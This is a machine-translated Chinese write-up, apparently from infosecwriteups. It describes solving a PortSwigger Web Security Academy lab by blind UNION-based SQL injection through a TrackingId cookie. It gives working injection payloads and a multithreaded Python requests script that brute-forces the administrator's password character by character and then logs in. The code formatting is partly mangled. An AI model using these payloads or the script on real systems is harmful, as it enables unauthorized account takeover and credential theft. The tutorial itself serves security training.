










# 基于 Python 的盲联合 SQLi

> 原文：<https://infosecwriteups.com/blind-union-based-sqli-with-python-f1a8190feb43?source=collection_archive---------1----------------------->

## [道德黑客文章和评论](https://medium.com/@vadimpolovnikov)

了解 Python 如何在速度上击败 Burp Suite，并提高您的黑客效率。


从 www.analyticsinsight.net[取回](http://www.analyticsinsight.net)

## [场景]

有一次，我通过列举一个易受攻击的 web 应用程序来提高我在盲人 SQL 注入上的技能。我在 cookie 字段中使用条件语句找到了简单的用户名“administrator”及其密码长度:

`‘ UNION SELECT ‘a’ FROM users WHERE username=’administrator’ AND length(password)=20--`

有什么迹象表明这是一次成功的 SQLi 搜寻？让我们看看 BurpSuite 比较器提供了什么:



左-错误的 SQL 语句。右-正确的 SQL 语句。

测试盲人 SQL 注入时，web 应用程序的响应通常会有细微的差别。


它在实际网站上的样子。

发现漏洞后，我继续进行以下 SQLi 探测，试图暴力破解管理员的密码:

`‘UNION SELECT ‘a’ FROM users WHERE username=’administrator’ AND ASCII(SUBSTRING(password, 1, 1))=65--`

为此，我使用了 Burp Suite 及其入侵者的集束炸弹攻击:



该攻击允许根据 ASCII 表值探查每个密码字母。

现在，你可能想知道，如果可以用 Burp Suite 继续枚举，为什么要转向 Python 呢？！在调查了 720 个组合中的大约 400 个组合后，web 应用程序喜欢…



web 应用程序在大约 40 分钟后超时，这对 Burp Suite 破解管理员密码来说是不够的。

> 请注意:这个场景基于 PortSwigger 的 Web Security Academy 实验室。web 应用程序的关闭我们可以理解为会话 cookie 的到期:)

嗯……为什么不创建一个 Python 脚本呢？所以，故事从这里开始。

## [设置]

首先，我们需要了解我们将使用什么库来实现与 web 应用程序及其 cookies 进行交互的目标。Python 内置的 [***请求***](https://requests.readthedocs.io/en/master/) 库也许会派上用场！

事实上，requests 模块就是我们所需要的，但是，为了加快蛮力运算的过程并比较结果，我们将再导入两个模块:[***concurrent . futures***](https://docs.python.org/3/library/concurrent.futures.html)*和*[***time***](https://docs.python.org/3/library/time.html)。**

```
**import requestsimport timeimport concurrent.futures**
```

**为了跟踪发送到 web 应用程序的精心制作的请求，我们将设置 Burp Suite 作为代理，这样我们就可以动态地调整请求的参数。**

**`proxy={“http”:”http://127.0.0.1:8080",“https”:”http://127.0.0.1:8080"}`**

**初始设置已经完成，现在我们准备进入脚本的主要部分！**

## **[创建会话]**

**显然，web 应用程序使用“tracking id”cookie 来跟踪用户的活动，并在登录过程中验证他们的身份。因此，我们的目标是以这个 cookie 为目标，注入一个恶意的 SQL 查询，使我们能够探查管理员的密码。**

**让我们从使用 Python 的请求库创建会话开始。**

```
**with requests.Session() as s: r = s.get(url, proxies=proxies, verify=False) print(r.headers) # Response headers cj = r.cookies # CookieJar object # CookieJar object --> Dictionary
    cj_dict = requests.utils.dict_from_cookiejar(cj) print(cj_dict) # Extracting cookie names
    cookie_names = [cookie for cookie in cj_dict.keys()]

    # Deleting TrackingId cookie    
    cj.clear(domain=url.split('/')[-1], path='/',     name=cookie_names[0]) # ASCII numeric values for a-b and 0-9 characters
    ascii_num_file=open('/Users/vadimpolovnikov/list.txt', 'r')
    characters_list = ascii_num_file.read().split('\n')**
```

****哗****

*   ****请求*。Session()*** 上下文管理器支持会话创建，因此每个后续请求将使用相同的 cookie 值提交。**
*   *****s.get()*** 通过 Burp Suite *代理* (127.0.0.1:8080)发出请求，省略其证书验证( *verify=False* )。**
*   *****cj*** 保存可通过*cookie*参数访问的 CookieJar 对象。函数***utils . dict _ from _ cookiejar()***将其转换成一个字典，我们可以很容易地从中提取 tracking id cookie(*cookie _ names*)。**
*   *****cj.clear()*** 删除 TrackingId cookie。**
*   *****characters _ list***保存文本文件内容的 ASCII 数值。**

**让我们使用 Burp Suite 代理来检查上面代码的结果。**

**原始请求通过 *s.get()。***

****

**原始 Python 的请求**

**服务器的响应，其中 Set-Cookie 字段包含 TrackingId cookie 值。**

****

**服务器的响应**

***Print(r.headers)* 和 *print(cj_dict)* 仅用于调试目的。**

****

**终端的输出**

## **[SQL 注入]**

**下面编写的函数将恶意的 SQL 查询注入到新创建的 TrackingId cookie 中，并暴力破解管理员密码的每个字符。**

```
**def sqli_pass_brute(pass_character):
    for n in characters_list:
        sqli = f"' UNION SELECT 'a' FROM users WHERE   username='administrator' AND ASCII(SUBSTRING(password, {pass_character}, 1))={n}--" # Setting new malicious TrackingId cookie
        cj.set(
               cookie_names[0], sqli,
               domain=url.split('/')[-1], path='/'
               ) r = s.get(url, cookies=cj, proxies=proxies, verify=False) if "Welcome back!" in r.text:
            letter = chr(int(n))
            break return letter**
```

**上述函数的第一部分通过检查每个密码字符( *pass_character* )与来自 *character_list* 的 ASCII 值进行强力运算。**

*****cj.set()*** 在 ***s.get()*** 向 web app 发出请求的同时，将恶意的 *sqli* 变量的值注入 TrackingId cookie 字段。**

****

**恶意的请求**

**最后， ***if*** 语句检查“欢迎回来！”字符串出现在服务器的响应中( *r.text* )，如果出现，则返回密码字符并移到下一个。**

## **[加速]**

**如前所述，Burp Suite 无法在有限的时间内处理密码暴力破解任务。上面的脚本已经在 200-400 秒内完成了这项工作，这取决于每次 web 应用程序超时时重置的密码。为了加快进程，我们可以使用 Python 的***concurrent . futures***模块(模拟线程)。**

```
**# Creating multiple threads for faster crackingwith concurrent.futures.ThreadPoolExecutor() as executor:
    threads = executor.map(sqli_pass_brute, list(range(1, 21)))password = ""
for letter in threads:
    password += letter # into the threads list**
```

*****concurrent . futures . threadpoolexecutor()***是一个支持多线程创建的上下文管理器。**

**当我们为每个密码字符创建一个线程时，每个字符的执行时间可能不同，所以按顺序组织结果是至关重要的。 ***map()*** 方法通过将线程的输出放入字典中来实现这一目的。**

**循环的 ***遍历*线程*字典，并用管理员的密码字符更新*密码*字符串。*****

## *[执行]*

*在执行之前，让我们将所有的部分收集到一个脚本中。*

****Start*** 和 ***stop*** 变量包含 Python 的 *time* 模块，用于性能检查。*

*现在，是时候启动脚本并收集管理员的密码了！而且，让我们不要忘记注释掉我们沿途设置的任何代理，因为我们不再需要 Burp Suite 作为中间人。*

**

*终端输出*

*正如我们所见，Python 脚本破解管理员密码大约需要 15 秒，比 Burp Suite 至少快 200-300 倍。*

*但是我们真的成功了吗？*

****

*万岁！管理员登录成功，现在我们可以免费购买一些“划水球鞋”了！*

*如果你想阅读更多我的文章和评论，点击**链接**(文章的第一行，就在标题上方)或者选择下面的一些。*

*[](https://medium.com/bugbountywriteup/your-neighbours-music-sucks-aircrack-ng-for-the-rescue-a5124a2e2734) [## 你邻居的音乐很烂？救援飞机来了！

### 有趣而简单的 Wi-Fi 认证攻击将您的邻居踢出网络。

medium.com](https://medium.com/bugbountywriteup/your-neighbours-music-sucks-aircrack-ng-for-the-rescue-a5124a2e2734) [](https://medium.com/bugbountywriteup/is-this-password-manager-safe-fd8886a78afd) [## 这个密码管理器安全吗？

### TryHackMe trans over machine 演练，包含 Burp Suite、JavaScript、开膛手 John 和 LinPEAS。

medium.com](https://medium.com/bugbountywriteup/is-this-password-manager-safe-fd8886a78afd) [](https://medium.com/bugbountywriteup/hi-george-do-you-want-your-shell-back-9e373b67bcd1) [## 嗨，乔治！你想要回你的壳吗？

### 使用 Metasploit、Msfvenom、Exploit-DB、PowerShell 和 RCE 的 HackPark 教育演练。

medium.com](https://medium.com/bugbountywriteup/hi-george-do-you-want-your-shell-back-9e373b67bcd1)*